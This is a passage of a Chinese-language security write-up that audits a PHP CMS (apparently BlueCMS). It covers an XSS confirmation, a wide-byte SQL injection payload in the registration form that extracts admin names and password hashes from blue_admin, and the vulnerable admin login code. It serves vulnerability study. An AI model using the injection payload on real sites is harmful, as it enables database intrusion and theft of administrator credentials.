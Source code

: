 再去看看管理后台，成功弹窗

![image-20210217150044291](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217150044291.png)

#### 2.5 用户注册 sql注入

现在本地调一下代码

![image-20210217152256880](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217152256880.png)

继续使用 email

![image-20210217151611235](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217151611235.png)

可以看到满足 宽字节注入的条件，因为配置文件重写了 post 方法，所以注入的时候要注意单引号。

构造 paylaod

```php
referer=&user_name=user03&pwd=user03&pwd1=user03&email=user03%401.com%df',1,1),(100, 0x757365723034, md5(123456), (select concat(admin_name,pwd) from blue_admin),1,1)#&safecode=xcpn&from=&act=do_reg
```

![image-20210217154338028](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217154338028.png)

![image-20210217154429840](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217154429840.png)

#### 2.6 后台登录 sql 注入

![image-20210217154620878](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217154620878.png)

文件 `/admin/login.php` 方法 do_login 

```php
elseif($act == 'do_login'){
 	$admin_name = isset($_POST['admin_name']) ? trim($_POST['admin_name']) : '';
 	$admin_pwd = isset($_POST['admin_pwd']) ? trim($_POST['admin_pwd']) : '';
 	$remember = isset($_POST) ? intval($_POST['rememberme']) : 0;
 	if($admin_name == ''){
 		showmsg('用户名不能为空');
 	}
 	if($admin_pwd == ''){
 		showmsg('用户密码不能为空');
 	}
 	if(check_admin($admin_name, $admin_pwd)){
 		update_admin_info($admin_name);
 		if($remember == 1){
 			setcookie('Blue[admin_id]', $_SESSION['admin_id'], time()+86400);
 			setcookie('Blue[admin_name]', $admin_name, time()+86400);
			setcookie('Blue[admin_pwd]', md5(md5($admin_pwd).$_CFG['cookie_hash']), time()+86400);
 		}
 	}else{
 		showmsg('您输入的用户名和密码有误');
 	}
 	showmsg('欢迎您 '.$admin_name.' 回来，现在将转向管理中心...', 'index.php');
 }
```
